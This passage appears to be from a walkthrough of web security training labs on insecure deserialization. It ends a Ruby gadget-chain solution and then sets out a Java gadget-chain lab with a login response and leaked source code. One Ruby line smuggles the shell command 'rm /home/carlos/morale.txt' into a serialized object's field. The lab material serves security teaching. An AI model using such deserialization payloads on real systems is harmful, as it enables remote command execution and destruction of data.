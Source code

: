 > stub\_specification.instance\_variable\_set(:@loaded\_from, "|rm /home/carlos/morale.txt")

**Solution:**

**`$ ruby rubyDeserialization.rb -> Session Cookie value`**

### Lab: Developing a custom gadget chain for Java deserialization

This lab uses a serialization-based session mechanism. If you can construct a suitable gadget chain, you can exploit this lab's insecure deserialization to obtain the administrator's password.

To solve the lab, gain access to the source code and use it to construct a gadget chain to obtain the administrator's password. Then, log in as the administrator and delete Carlos's account.

```
POST /login HTTP/1.1

HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=rO0ABXNyACJkYXRhLnNlc3Npb24udG9rZW4uQWNjZXNzVG9rZW5Vc2Vyc1%2bhUBRJ0u8CAAJMAAthY2Nlc3NUb2tlbnQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB%2bAAF4cHQAIGZuajZvZ3ZoMzFlOHVweTQ0aXRsYmN1MTZvYWhrYnFwdAAGd2llbmVy; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

```
<!-- <a href=/backup/AccessTokenUser.java>Example user</a> -->

package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```
